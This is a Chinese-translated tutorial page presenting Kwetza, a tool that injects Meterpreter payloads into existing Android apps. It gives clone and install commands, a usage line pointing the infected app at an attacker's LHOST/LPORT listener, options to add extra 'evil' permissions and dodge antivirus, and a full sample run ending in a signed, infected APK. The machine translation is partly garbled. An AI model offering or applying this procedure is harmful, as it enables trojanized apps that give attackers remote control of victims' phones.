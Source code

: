 # kwet za——用 Meterpreter 有效负载感染现有 Android 应用程序的工具

> 原文：<https://kalilinuxtutorials.com/kwetza-android-application/>

Kwetza 是一个工具，允许您用 Meterpreter 有效负载感染现有的 Android 应用程序。Python 脚本为现有的 Android 应用程序注入了一个 Meterpreter 负载。

## **奎扎究竟做了什么？**

Kwetza 通过定制或默认的有效载荷模板感染现有的 Android 应用程序，以避免被反病毒软件检测到。Kwetza 允许您使用目标应用程序的默认权限感染 Android 应用程序，或者注入附加权限以获得附加功能。

**也读作[PEM cracker——破解加密 PEM 文件的工具](https://kalilinuxtutorials.com/pemcracker-encrypted-pem/)**

## **获取代码**

首先获取代码:

```
git clone https://github.com/sensepost/kwetza.git
```

它是用 Python 编写的，需要 BeautifulSoup，可以使用 Pip 安装:

```
pip install beautifulsoup4
```

它需要安装 Apktool，并且可以通过您的路径访问。这可以使用位于[这里](https://ibotpeaches.github.io/Apktool/install)的安装说明进行设置。

## **用法**

python kwetza . py name of apktoinfect . apk https/TCP LHOST LPORT 是/否自定义类

*   **nameoftheapktoinfect . apk**=您希望感染的 apk 的名称。
*   **https/tcp** =选择 https 或 tcp 连接
*   **LHOST** =你的监听器的 IP。
*   **LPORT** =您的监听器的端口。
*   **yes** =包含“yes”以将额外的邪恶 perms 注入应用程序，“no”以利用应用程序的默认权限。
*   **customClass** =如果您希望将自定义活动注入到此活动中，请在此处指定该活动。

```
python kwetza.py hackme.apk https 10.42.0.118 4444 yes com.moo.another.activity
[+] MMMMMM KWETZA
[*] DECOMPILING TARGET APK
[+] ENDPOINT IP: 10.42.0.118
[+] ENDPOINT PORT: 4444
[+] APKTOOL DECOMPILED SUCCESS
[*] BYTING COMMS...
[*] ANALYZING ANDROID MANIFEST...
[+] TARGET ACTIVITY: com.foo.moo.gui.MainActivity
[*] INJECTION INTO APK
[+] CHECKING IF ADDITIONAL PERMS TO BE ADDED
[*] INJECTION OF CRAZY PERMS TO BE DONE!
[+] TIME TO BUILD INFECTED APK
[*] EXECUTING APKTOOL BUILD COMMAND
[+] BUILD RESULT
############################################
I: Using APktool 2.2.0
I: Checking whether source shas changed...
I: Smaling smali folder into classes.dex
I: Checking whether resources has changed...
I: Building resources...
I: Copying libs ...(/lib)
I: Building apk file...
I: Copying unknown files/dir...
###########################################
[*] EXECUTING JARSIGNER COMMAND...
Enter Passphrase for keystore: password
[+] JARSIGNER RESULT
###########################################
jar signed.

###########################################

[+] L00t located at hackme/dist/hackme.apk
```

## 信息 

该工具是为配合 Python 2 而开发的。

默认情况下，它将使用位于“payload”文件夹中的模板和密钥库来注入和签名受感染的 apk。

如果您想用自己的证书对受感染的应用程序进行签名，请生成一个新的密钥库，并将其放在“payload”文件夹中，然后重命名为现有的密钥库，或者更改 kwetza.py 中的引用。

对于有效负载模板也可以这样做。

默认密钥库的密码是“password”。

[![](img/d861a9096555aeb1980fc054015933d7.png)](https://github.com/sensepost/kwetza)